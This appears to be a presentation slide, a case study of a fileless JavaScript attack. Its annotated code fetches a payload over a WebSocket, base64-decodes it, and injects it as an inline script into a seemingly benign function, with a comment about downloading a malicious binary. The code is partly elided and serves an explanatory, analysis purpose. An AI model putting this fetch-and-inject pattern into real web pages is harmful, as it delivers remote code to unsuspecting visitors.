

# Case study: Fileless JavaScript Attack
1
2
3
4
5
6
7
8
9
10
11

12
13
14
15
16
WS = new WebSocket('.../mal.js');
WS.onmessage = function (e) {
  mal = atob(e.data);
};
function benign_compromised() {
  var sc = document.createElement('script');
  ...
  //sc.src = "http://.../benign.js";
  sc.appendChild( document.createTextNode( mal ) );
  ...
  document.getElementsByTagName('head')[0]
          .appendChild(sc);
}
...
<script type='text/javascript'>
    // download a malicious binary
</script>

Legend

Code Changed by the Malicious Attacker
Breakpoint to Inspect Program States (e.g., Variables)
C
B
19